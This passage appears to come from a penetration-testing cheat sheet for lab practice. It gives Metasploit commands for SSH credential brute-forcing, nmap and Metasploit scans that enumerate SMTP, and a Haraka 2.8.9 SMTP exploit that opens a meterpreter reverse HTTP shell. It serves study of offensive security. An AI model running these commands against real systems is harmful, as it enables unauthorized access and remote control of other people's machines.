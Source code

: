 {% code title="Metasploit" %}
```bash
service postgresql start && msfconsole

## Access or brute forcing with msfconsole
use auxiliary/scanner/ssh/ssh_login

set RHOSTS IP
set USERPASS_FILE /usr/share/wordlists/metasploit/root_userpass.txt
set STOP_ON_SUCCESS true
set VERBOSE true
exploit
```
{% endcode %}

## 25 - SMTP

```
# CHECK THE VERSION
searchsploit smtp VERSION
```

### SMTP enumeration

```bash
# Nmap
nmap -p 25 -sV -sC -O <TARGET_IP>
nmap -sV -script banner <TARGET_IP>
```

### SMTP exploit

{% code title="Metasploit" %}
```bash
service postgresql start && msfconsole

## stmp enumeration
use auxiliary/scanner/smtp/smtp_version
use auxiliary/scanner/smtp/smtp_enum
set RHOSTS IP
run
```
{% endcode %}

### SMTP Server Haraka 2.8.9

```bash
service postgresql start && msfconsole

use exploit/linux/smtp/haraka
set RHOST IP
set SRVPORT PORT
set email_to root@attackdefense.test
set payload linux/x64/meterpreter_reverse_http
set LHOST IP
exploit
```
